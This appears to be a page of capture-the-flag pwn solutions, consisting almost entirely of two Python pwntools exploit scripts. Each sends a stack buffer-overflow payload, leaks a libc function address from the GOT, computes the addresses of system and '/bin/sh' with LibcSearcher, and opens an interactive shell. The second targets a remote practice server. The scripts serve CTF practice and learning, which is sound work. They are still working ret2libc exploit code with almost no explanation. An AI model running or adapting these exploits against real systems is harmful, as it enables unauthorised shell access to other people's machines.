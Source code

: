 ```python
elf = ELF('./pwn')

io.sendlineafter(b'Please input admin password:', b'administrator')

payload = cyclic(76) + p32(elf.plt['puts']) + p32(elf.symbols['main']) + p32(elf.got['printf'])

io.sendlineafter(b'0.Exit\n:', b'1')
io.sendlineafter(b'Please input new log info:', payload)
io.sendlineafter(b'0.Exit\n:', b'4')

io.recvuntil(p32(elf.got['printf']) + b'\n')
printf = u32(io.recv(4))

libc = LibcSearcher('printf', printf)
base = printf - libc.dump('printf')
binsh = base + libc.dump('str_bin_sh')

io.sendlineafter(b'Please input admin password:', b'administrator')

payload = cyclic(76) + p32(elf.plt['system']) + p32(0xdeadbeef) + p32(binsh)
io.sendlineafter(b'0.Exit\n:', b'1')
io.sendlineafter(b'Please input new log info:', payload)
io.sendlineafter(b'0.Exit\n:', b'4')
io.interactive()
```
# buu021-铁人三项(第五赛区)_2018_rop

```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 26419)
elf = ELF('./pwn')
# libc = ELF('libc32')

payload = cyclic(0x8c) + p32(elf.symbols['write']) + p32(elf.symbols['vulnerable_function'])
payload += p32(1) + p32(elf.got['read']) + p32(24)

io.sendline(payload)
io.recv(16)
write = u32(io.recv(4))
print(hex(write))

libc = LibcSearcher('write', write)
base = write - libc.dump('write')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

# base = write - libc.symbols['write']
# sys = base + libc.symbols['system']
# binsh = base + next(libc.search(b'/bin/sh'))
print(hex(base))
print(hex(sys))
print(hex(binsh))

payload = cyclic(0x8c) + p32(sys) + p32(binsh) + p32(binsh)
io.sendline(payload)

io.interactive()
```